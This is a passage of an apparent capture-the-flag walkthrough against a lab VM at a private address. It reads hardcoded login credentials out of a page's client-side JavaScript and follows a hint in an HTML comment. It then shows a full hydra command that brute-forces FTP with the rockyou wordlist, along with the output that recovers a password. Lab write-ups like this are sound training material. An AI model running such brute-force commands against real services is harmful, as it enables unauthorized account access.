  Progress: 1323348 / 1323348 (100.00%)
===============================================================
 Finished
===============================================================
A Login Page:

[login page pic]

First always check the source code.... 

[pic of source code:login.php]

There is an interesting file link to this website:

|<script src="CR3D5.js"></script>|

Content of http://192.168.1.11/BankOfSp41n/CR3D5.js :
function check(form)
{
if(form.userid.value == "anonymous" && form.pwd.value == "B1tCh")
{
        return true;
}
else
{
        alert("Hahaha! Wrong Person!")
        return false;
}
}

From here, it can be seen that , it is a function designed to validate login credentials. The function checks if the values entered into the form fields match specific criteria.

- **_form.userid.value_** must be equal to " **_anonymous_** ".
- **_form.pwd.value_** must be equal to " **_B1tCh_** ".

This JavaScript code provides the exact credentials needed to successfully login: 

- Username: **_anonymous_**
- Password: **_B1tCh_**

Again checking the source page after loging:
This is the  message in it:
**<-- Hey! help please I'm Arturo Román they are very-dangerous and one more thing may be old things won't work they are UPDATED, please help me!! -->

This message suggest about the there might be updated credentials and the username arturo 
Let's try to brute force it using a powerful tool hydra

command: < hydra -l arturo -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.11>

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.1.11:21/
[STATUS] 289.00 tries/min, 289 tries in 00:01h, 14344110 to do in 827:14h, 16 active
[STATUS] 278.67 tries/min, 836 tries in 00:03h, 14343563 to do in 857:53h, 16 active
[ERROR] Can not create restore file (./hydra.restore) - Permission denied
[21][ftp] host: 192.168.1.11   login: arturo   password: `corona`
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-12 14:52:05
